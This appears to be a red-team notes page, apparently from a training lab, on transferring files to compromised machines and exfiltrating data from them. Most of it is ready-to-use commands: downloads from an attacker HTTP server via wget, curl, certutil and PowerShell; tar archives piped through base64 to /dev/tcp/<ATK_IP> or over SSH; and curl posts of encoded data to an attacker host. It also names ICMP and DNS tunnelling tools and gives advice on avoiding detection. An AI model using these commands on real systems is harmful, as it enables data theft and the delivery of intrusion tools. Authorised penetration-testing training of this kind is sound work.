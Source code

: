 For the sake of example, everything labeled as a "task" can be considered the data being exfiltrated. 

> [!danger] Detection Risk
> Don't burn important host IPs onto a blacklist trying to download autopwn.exe or something stupid. Be cognizant of your situation, and act accordingly. Run stuff by more senior teammates if you don't know for sure. 

[[#File Transfers]] are TO a target machine, [[#Exfiltration]] is FROM a target machine. 

# File Transfers
## HTTP
On the attacker machine:
```shell
python -m SimpleHTTPServer <portno> # Start a python 2 http server in cwd
python3 -m http.server <portno> # start a python3 http server in cwd
```

On the victim machine:
```bash
(Linux)
wget http://<attackerIP>:<portno>/FileToTransfer
curl -o <outfile> http://<attackerIP>:<portno>/FileToTransfer
```


```powershell
(Windows)
# Curl
curl http://<attackerIP>:<portno>/FileToTransfer -o <outfile>

# Wget
wget http://<attackerIP>:<portno>/FileToTransfer

# Certutil
certutil.exe -urlcache -f http://<attackerIP>/FileToTransfer <outfile>

# Powershell
Invoke-WebRequest -Uri "http://<attackerIP>:<portno>/FileToTransfer" -OutFile <outfile>
```

## SMB
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

Here you can use File Explorer or [[net]] on Windows to map the drive and [[SMBClient]] on Linux. 

# Exfiltration
## Raw TCP Sockets
[[Netcat]] Example Command: 
```shell
nc -lvp 8080 > /tmp/task4-creds.data # Receive
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ATK_IP>/8080 # Send
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar # Recombine
tar xvf task4-creds.tar # Decompress
```

## SSH
```shell
tar cf - task5/ | ssh thm@<ATK_IP> "cd /tmp/; tar xpf -" # On victim machine
```

## HTTP
```shell
curl --data "file=$(tar zcf - task6 | base64)" http://<ATK_IP>/bogus.php
```
This will leave the data base64 encoded in apache's access.log. 
[[Neo-reGeorg]]

## ICMP
Ping has a data section we can use for exfil. Also see [[ICMPdoor]] for ICMP C2. 

## DNS
Add data as TXT record on a DNS server and retrieve with dig. [[Iodined]] for C2.
